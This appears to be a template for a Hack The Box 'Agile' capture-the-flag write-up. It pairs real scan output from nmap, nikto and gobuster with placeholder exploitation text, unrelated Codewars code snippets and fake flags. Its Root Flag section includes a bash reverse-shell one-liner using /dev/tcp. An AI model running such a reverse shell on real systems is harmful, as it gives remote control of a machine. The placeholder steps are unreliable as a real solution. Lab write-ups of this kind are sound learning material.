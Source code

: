 ```yaml
---
title: "Hack The Box - Agile"
author: Ilyass Elannid
date: 2023-03-16
subject: "CTF Writeup"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: ""
collection: writeups
permalink: /writeups/HTB-Agile
excerpt: 'This is a free boot2root machine on HackTheBox.'
...
```


![header](/images/agile.png)

**Link to the machine:** [Agile](https://app.hackthebox.com/machines/532)

---


# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
$ nmap -A 10.10.11.203 -T4        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 09:43 EDT
Nmap scan report for superpass.htb (10.10.11.203)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SuperPassword \xF0\x9F\xA6\xB8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.42 seconds
```
From the above output we can see that ports, **22** and **80** are the ports open.

## Nikto

```console
$ nikto -host 10.10.11.203                                                                                   1 ⨯
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.203
+ Target Hostname:    10.10.11.203
+ Target Port:        80
+ Start Time:         2023-03-16 09:55:02 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://superpass.htb
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ 8074 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-03-16 10:17:43 (GMT-4) (1361 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Nothing interesting except that the server uses an outdated version of nginx.

## Gobuster
### Subdirectories:
Since we have a website then we scan the target for subdirectories.

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u superpass.htb -t 80
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://superpass.htb
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/16 09:59:28 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 302) [Size: 249] [--> /account/login?next=%2Fdownload]
/static               (Status: 301) [Size: 178] [--> http://superpass.htb/static/]
/vault                (Status: 302) [Size: 243] [--> /account/login?next=%2Fvault]
Progress: 220470 / 220561 (99.96%)
===============================================================
2023/03/16 10:12:55 Finished
===============================================================

```
We found 3 subdirectories for the moment, none of whoch seems interesting as they all redirect to a login page or lead to an error, we can re-check those which require a login later if we succeed to do so.

Let's surf the website.

![My Website](../images/agile1.png)

\ **Figure 1:** My Website

After some clicking and navigation I found a page that allows to register a new user, store some passwords and then export those to a downloadable pdf file.

![Github](../images/agile2.png)

\ **Figure 2:** Github Profile


![Github](../images/agile3.png)

\ **Figure 2:** Github Profile

The first normal reaction that would come to anyones mind is to intercept the download request and mess a little bit with its content in order to achieve an LFI attack. But Let's not rush that and do more reconnaissance. We'll run gobuster again to see if there are any hidden pages we can access.

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)